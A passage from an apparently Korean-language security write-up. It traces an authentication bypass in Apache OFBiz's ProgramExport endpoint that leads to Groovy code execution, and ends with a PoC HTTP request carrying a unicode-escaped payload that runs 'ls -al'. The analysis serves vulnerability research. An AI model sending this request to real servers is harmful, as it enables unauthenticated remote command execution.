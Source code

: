 이에 대한 전체적인 흐름은 다음과 같습니다.

✅ `/webtools/control/main/ProgramExport` 요청에 대한 흐름

```
사용자 요청 (URL: /webtools/control/main/ProgramExport)
       │
       ▼
Controller 처리 (ControlFilter.java)
       ├── URL 패턴 검사(Path Traversal 공격 벡터 필터링)
       ▼
RequestHandler에서 변수 초기화 (RequestHandler.java)
       ├── `path` 초기화 (`/main/ProgramExport`)
       ├── `requestUri` 초기화 (`main`)
       ├── `overrideViewUri` 초기화 (`ProgramExport`)
       ▼
인증 검사 (requestUri 기준 인증 수행 → `ProgramExport` 인증 우회)
       │
       ▼
뷰 렌더링 (renderView 메서드 호출)
       ├── `ProgramExport` 뷰 매핑 (controller.xml)
       ├── `EntityScreens.xml`에서 `ProgramExport` 뷰 컴포넌트 로드
       ▼
그루비 스크립트 실행 (ProgramExport.groovy)
       ├── `groovyProgram` 파라미터 값 확인
       ├── `shell.evaluate(groovyProgram)` 실행
       ▼
사용자 화면 출력
```

# PoC

결과적으로, 다음의 요청 패킷이 전달될 경우 `groovyProgram` 파라미터에 담긴 임의 명령어(`ls -al`)가 실행되는 것을 확인할 수 있습니다.

> `grovyProgram=throw new Exception('ls -al'.execute().text);` 요청
> 

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```
